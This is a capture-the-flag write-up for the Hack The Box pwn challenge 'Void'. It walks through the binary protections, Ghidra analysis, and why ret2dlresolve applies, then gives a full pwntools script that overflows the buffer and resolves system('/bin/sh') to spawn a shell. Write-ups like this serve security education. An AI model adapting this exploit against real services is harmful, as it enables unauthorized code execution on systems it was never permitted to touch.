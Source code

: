 # Void
> Write-up author: jon-brandy
## DESCRIPTION:
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary - not stripped.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/051edd67-8036-4c74-bdbc-9f7a144140ec)

> No Canary Found, PARTIAL RELRO, NO PIE

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/883735c5-0bb9-4f85-9485-e5de52f1ce4e)


2. Let's decompile the binary with ghidra.
3. At the main() function, there's only one function called --> vuln()

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/c762cb32-c0fd-4976-b2af-6725b8c9965b)


4. At first, i assume that the chall must be related to `ret2libc` because there's no interesting function to return to.
5. But after checking the **Global Offset Table** turns out there are no `puts()`, `printf()`, or `write()` functions.
6. Then i realized it's a `ret2dlresolve` pwn challenge. It's a technique in pwn to manipulate the dyanmic linker's resolution process and redirect it to execute arbitrary code.
7. Actually it's `quite similiar` to overwrite GOT with format strings vuln.
8. Also we can utilize **pwntools** to automate the process to resolve the functions, because if we don't use pwntools, we need to construct 3 structures to fake.

```console
There're 3 structures we need to fake:
- STRTAB
- SYMTAB
- JMPREL
```

9. Here's the script i used to solve this:

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './void'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

padding = 72

rop = ROP(elf)

dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])
rop.raw(asm('nop') * padding)
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)

sh.sendline(rop.chain())
sh.sendline(dlresolve.payload)

sh.interactive()
```

> LOCALLY

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/57498dbc-34a6-45b1-aa52-0c1c9568caf8)


10. Let's send it remotely.





